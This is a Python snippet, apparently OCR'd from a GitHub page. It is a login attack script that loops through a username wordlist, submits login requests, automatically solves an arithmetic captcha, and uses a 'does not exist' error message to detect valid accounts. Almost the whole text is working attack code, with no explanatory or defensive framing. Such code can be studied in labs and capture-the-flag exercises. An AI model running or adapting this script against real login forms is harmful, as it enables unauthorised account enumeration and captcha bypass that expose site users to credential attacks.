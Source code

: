 ```python
password = 'test'
counter = 0
# Read the usernames and passwords from the files
usernames = read_file(username_file)
passwords = read_file(password_file)

# iterate through the usernames 
for username in usernames:
    counter+=1
#    if (counter==10):
#        break
    log(f"-----------------------------------------", False)
    
    username = username.strip()
    password = password.strip()
    
    response = start_job(login_url, username, password)

    # Test for Captha presence and test usernames
    if process_response(response, 'Captcha enabled'):
        #print("Captcha is enabled") 
        
        # Solve the captcha
        captcha_string = process_response_captcha(response, 'Captcha enabled</h3></b></label><br>', ' = ?')
        captcha_value = solve_captcha(captcha_string)
        log(f"Captcha is enabled --> {captcha_string=} is {captcha_value}", False)
        
        # try again with the captcha value
        response = start_job(login_url, username, password, captcha_value)
        log(f"Response is: {response}", False)

        # Test for username
        if process_response(response, 'does not exist'):
            log(f"{counter} The user '{username}' does not exist")
        else:
            log(f"{counter} The user '{username}' found!!!!")
            break
        
    else:
        log("Captcha is not enabled")
        
        # Test for username
        if process_response(response, 'does not exist'):
            log(f"{counter} The user '{username}' does not exist")
        else:
            log(f"{counter} The user '{username}' found!!!!")
            break

```
